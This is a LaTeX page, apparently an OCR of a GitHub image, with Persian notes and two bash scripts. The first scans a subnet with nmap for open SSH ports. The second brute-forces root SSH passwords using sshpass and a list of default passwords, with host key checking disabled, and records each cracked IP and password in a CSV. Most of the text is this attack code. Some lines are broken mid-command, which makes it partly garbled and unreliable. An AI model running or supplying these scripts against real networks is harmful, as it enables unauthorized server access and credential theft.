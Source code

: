 \documentclass{article}
\begin{document}
در سرور attacker  با استفاده از فایل بش اسکریپت  با استفاده از nmap تمام پورت های ۲۲ باز را در شبکه پیدا میکنیم و همراه با ip در فایل  دخیره میکنید
\begin{latin}
  \begin{lstlisting}[language=bash]
#!/bin/bash

# IP range
ip_range="172.85.69.0/24"

# Output file
output_file="open_ports.csv"

# Write the header to the CSV file
echo "IP,Server Name,Port 22 Status" > $output_file

# Scan the IP range
for ip in $(nmap -sn -PR -n $ip_range | grep report | awk '{print $5}'); do
    # Check if port 22 is open
    port_status=$(nmap -p 22 -n $ip | grep 22/tcp | awk '{print $2}')
    
    # Get the server name
    server_name=$(nslookup $ip | grep 'name = ' | 
    cut -d '=' -f2 | cut -d '.' -f1)
    
    # If server name is empty, use the IP address
    if [ -z "$server_name" ]; then
        server_name=$ip
    fi
    
    # Write the result to the CSV file
    echo "$ip,$server_name,$port_status" >> $output_file
done
  \end{lstlisting}
\end{latin}
و بعد از آن با استفاده از فایلی که رمز های ساده و دیفالت در آن قرار دارد در فایل  برای بروت فورس زدن روی سرور ها برای فهمیدن رمز ssh آن ها استفاده میکنیم و نتیجه آن که لیستی از ip و password را در فایل csv دخیره میکنیم
\begin{latin}
  \begin{lstlisting}[language=bash]
#!/bin/bash

# IP range
ip_range="172.85.69.0/24"

# Password file
password_file="password.txt"

# Output file
output_file="ip_passwords.csv"

# Write the header to the CSV file
echo "IP,Password" > $output_file

# Scan the IP range
for ip in $(nmap -sn -PR -n $ip_range | grep report | awk '{print $5}'); do
    # Check if port 22 is open
    port_status=$(nmap -p 22 -n $ip | grep 22/tcp | awk '{print $2}')
    
    # If port 22 is open, try each password
    if [ "$port_status" == "open" ]; then
        while read password; do
            # Try to connect via SSH
            sshpass -p $password ssh -o StrictHostKeyChecking=no -o 
            ConnectTimeout=5 root@$ip exit 2>/dev/null
            
            # If the connection was successful, write the IP 
            and password to the CSV file
            if [ $? -eq 0 ]; then
                echo "$ip,$password" >> $output_file
                break
            fi
        done < $password_file
    fi
done
  \end{lstlisting}
\end{latin}
\end{document}
